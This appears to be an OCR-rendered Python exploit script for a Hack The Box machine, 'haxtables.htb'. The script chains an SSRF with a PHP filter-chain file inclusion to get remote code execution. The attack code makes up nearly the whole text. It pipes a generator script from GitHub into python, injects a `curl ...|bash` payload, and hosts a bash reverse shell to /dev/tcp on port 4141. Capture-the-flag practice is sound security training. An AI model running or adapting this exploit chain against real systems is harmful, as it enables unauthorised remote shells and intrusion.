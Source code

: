```py
    tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

# function for creating php filter chain using synacktiv "php_filter_chain_generator.py" script from github
def gen_php_chain(ip):
    command = f'curl -s https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py | python - --chain \'<?= `curl http://{ip}:8000/rev.sh|bash` ;?>\''
    output_file = os.popen(command)
    output = output_file.read()
    output_file.close()
    php_chain = output.split('\n')[1]
    return php_chain

# function for hosting reverse shell
def start_http_server(port, ip):
    with open('rev.sh', 'w') as f:
        f.write(f'/bin/bash -i >& /dev/tcp/{ip}/4141 0>&1')

    try:
        Handler = http.server.SimpleHTTPRequestHandler
        httpd = socketserver.TCPServer(("", port), Handler)

        # print("Serving at port", port)
        httpd.serve_forever()
    except OSError as e:
        print(e)


try:
    # Start http server on child thread
    port = 8000
    http_thread = threading.Thread(target=start_http_server, args=(port,tun0_ip))
    http_thread.daemon = True
    http_thread.start()
    
    # Generate php chain
    rce_chain = gen_php_chain(tun0_ip)

    url = "http://api.haxtables.htb/v3/tools/string/index.php"
    ssrf_uri = f"image.haxtables.htb/actions/action_handler.php?page={rce_chain}"
    data = {"action":"urldecode","file_url":f"{ssrf_uri}"}

    resp = r.post(url, json=data)
    print(resp.text)
    
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
except KeyboardInterrupt as e:
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
    print(e)
except Exception as e:
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
    print(e)

```
